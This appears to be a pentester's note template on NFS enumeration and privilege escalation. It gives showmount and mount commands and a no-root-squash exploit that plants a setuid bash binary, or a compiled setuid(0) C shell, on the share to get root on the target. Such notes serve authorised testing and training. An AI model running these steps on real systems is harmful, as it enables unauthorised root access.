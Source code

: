 # NFS - <% tp.frontmatter.current_port %>

### Show available mounts
```bash
showmount -e <% tp.frontmatter.target_ip %>
```

### Mount 
```bash
sudo mount -t nfs -o nolock,nfsvers=3 <% tp.frontmatter.target_ip %>:/<target_share> <local_folder>
```

### No Root squashing
This sometimes works to escalate privileges 

```bash
sudo cp /bin/bash <mount/location>/bash
```

```bash
sudo chmod +s <mount/location>/bash
```

On target machine
```bash
<path/to/file>/bash -p
```

OR
Create `.c` file
```bash
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0;}' > ./x.c
```

compile and save to mounted drive
```bash
sudo gcc ./x.c -o <mount/location>/x
```

```bash
sudo chmod +s </mount/location>/x
```

On target machine
```bash
<path/to/file>/x
```